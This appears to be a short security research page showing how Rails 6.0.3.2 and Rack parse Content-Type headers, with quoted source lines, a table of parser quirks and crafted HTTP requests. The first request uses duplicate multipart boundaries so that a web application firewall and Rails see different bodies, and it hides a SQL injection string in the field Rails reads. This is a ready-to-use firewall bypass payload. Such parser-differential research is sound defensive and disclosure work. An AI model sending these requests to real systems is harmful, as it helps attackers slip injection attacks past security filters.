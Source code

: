 ### Rails 6.0.3.2

**Endpoint**
```ruby
def index
  data = request.POST
```

**Source code**  
[/rack/rack/lib/rack/multipart.rb](https://github.com/rack/rack/blob/ab41dccfe287b7d2589778308cb297eb039e88c6/lib/rack/multipart.rb#L15)
```ruby
MULTIPART = %r|\Amultipart/.*boundary=\"?([^\";,]+)\"?|ni
```

[/rails/rails/actionpack/lib/action_dispatch/http/mime_types.rb](https://github.com/rails/rails/blob/e82c10b49ad9cb949f77297e6a814fd8f09d3c8f/actionpack/lib/action_dispatch/http/mime_types.rb#L46)
```ruby
Mime::Type.register "application/json", :json, %w( text/x-json application/jsonrequest )
```

**Content-Type**  
```
application/x-www-form-urlencoded,XXX
multipart/form-data,XXX
```

**Multipart Content-Type**
| Check             | Value            |
|-------------------|------------------|
| Mime-Type         | case-insensitive |
| Multiple boundary | last position    |
| Boundary key      | case-insensitive |

**HTTP Request**
```http
POST / HTTP/1.1
Host: localhost
Content-Type: Multipart/FORM-data,XXX; boundary=wafboundary; xxxBOUNDARY=railsboundary,x=x
Content-Length: 225

--wafboundary
Content-Disposition: form-data; name="file"; filename="test.txt"
Content-Type: text/plain

--railsboundary
Content-Disposition: form-data; name="q"

' union select '1
--railsboundary--
--wafboundary--
```

**JSON Content-Type**
```
application/json,XXX
text/x-json,XXX
application/jsonrequest,XXX
```

**HTTP Request**
```
POST / HTTP/1.1
Host: localhost
Content-Type: text/x-json
Content-Length: 13

{"test":true}
```